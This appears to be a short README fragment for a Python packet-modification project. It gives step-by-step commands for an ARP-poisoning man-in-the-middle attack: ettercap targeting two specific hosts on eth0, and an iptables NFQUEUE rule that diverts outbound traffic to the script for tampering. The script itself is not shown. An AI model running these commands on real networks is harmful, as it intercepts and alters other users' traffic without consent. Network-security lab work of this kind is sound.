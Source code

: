
1. Run the python program
2. Start ARP poisoning with:
   ```bash
   sudo ettercap -T -i eth0 -M arp /192.168.39.110// /192.168.37.163//
   ```
   exit with `q`
3. Put packet on queue for being modified by the Python script with: 
   ```bash
   sudo iptables -I OUTPUT -d 192.168.0.0/16 -j NFQUEUE --queue-num 1
   ```
   Return to normal mode with: 
   ```bash
   sudo iptables -F
   ```